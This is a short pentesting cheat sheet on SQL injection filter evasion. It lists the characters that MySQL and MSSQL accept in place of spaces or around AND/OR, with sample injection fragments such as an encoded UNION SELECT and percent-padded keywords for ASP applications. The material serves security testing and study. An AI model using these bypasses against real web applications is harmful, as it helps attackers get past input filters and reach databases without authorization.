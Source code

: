 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Allowed Intermediary Characters

## Whitespaces

### MySQL

The following characters can be used as whitespaces.

| Hexadecimal Character | Character          |
| --------------------- | ------------------ |
| `09`                  | Horizontal Tab     |
| `0A`                  | New Line           |
| `0B`                  | Vertical Tab       |
| `0C`                  | New Page           |
| `0D`                  | Carriage Return    |
| `A0`                  | Non-breaking Space |
| `20`                  | Space              |

```sql
'%0A%09UNION%0CSELECT%A0NULL%20%23
```

 Parentheses can also be used to avoid the use of spaces.

| Hexadecimal Character | Character |
| --------------------- | --------- |
| `28`                  | `(`       |
| `29`                  | `)`       |

```sql
UNION(SELECT(column)FROM(table))
```

### MSSQL

The following characters can be used as whitespaces.

| Hexadecimal Character | Character                 |
| --------------------- | ------------------------- |
| `01`                  | Start of Heading          |
| `02`                  | Start of Text             |
| `03`                  | End of Text               |
| `04`                  | End of Transmission       |
| `05`                  | Enquiry                   |
| `06`                  | Acknowledge               |
| `07`                  | Bell                      |
| `08`                  | Backspace                 |
| `09`                  | Horizontal Tab            |
| `0A`                  | New Line                  |
| `0B`                  | Vertical Tab              |
| `0C`                  | New Page                  |
| `0D`                  | Carriage Return           |
| `0E`                  | Shift Out                 |
| `0F`                  | Shift In                  |
| `10`                  | Data Link Escape          |
| `11`                  | Device Control 1          |
| `12`                  | Device Control 2          |
| `13`                  | Device Control 3          |
| `14`                  | Device Control 4          |
| `15`                  | Negative Acknowledge      |
| `16`                  | Synchronous Idle          |
| `17`                  | End of Transmission Block |
| `18`                  | Cancel                    |
| `19`                  | End of Medium             |
| `1A`                  | Substitute                |
| `1B`                  | Escape                    |
| `1C`                  | File Separator            |
| `1D`                  | Group Separator           |
| `1E`                  | Record Separator          |
| `1F`                  | Unit Separator            |
| `20`                  | Space                     |
| `25`                  | `%`                       |

> [!NOTE]
> The percentage signs in between keywords is only possible on ASP(x) web applications.

```sql
S%E%L%E%C%T%01column%02FROM%03table;
A%%ND 1=%%%%%%%%1;
```

 The following characters can be also used to avoid the use of spaces. 

| Hexadecimal Character | Character |
| --------------------- | --------- |
| `22`                  | `"`       |
| `28`                  | `(`       |
| `29`                  | `)`       |
| `5B`                  | `[`       |
| `5D`                  | `]`       |

```sql
UNION(SELECT(column)FROM(table));
SELECT"table_name"FROM[information_schema].[tables];
```

## AND/OR

### MySQL

| Hexadecimal Character | Character |
| --------------------- | --------- |
| `20`                  | Space     |
| `2B`                  | `+`       |
| `2D`                  | `-`       |
| `7E`                  | `~`       |
| `21`                  | `!`       |
| `40`                  | `@`       |

> [!NOTE]
> `dual` is a dummy table which can be used for testing. 

```sql
SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))
```

### MSSQL

> [!INFO]
> The backslash does not seem to work with MSSQL 2000.

| Hexadecimal Character | Character |
| --------------------- | --------- |
| `01 - 20`             | Range     |
| `21`                  | `!`       |
| `2B`                  | `+`       |
| `2D`                  | `-`       |
| `2E`                  | `.`       |
| `5C`                  | \|        |
| `7E`                  | `~`       |

```
SELECT 1FROM[table]WHERE\1=\1AND\1=\1;
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)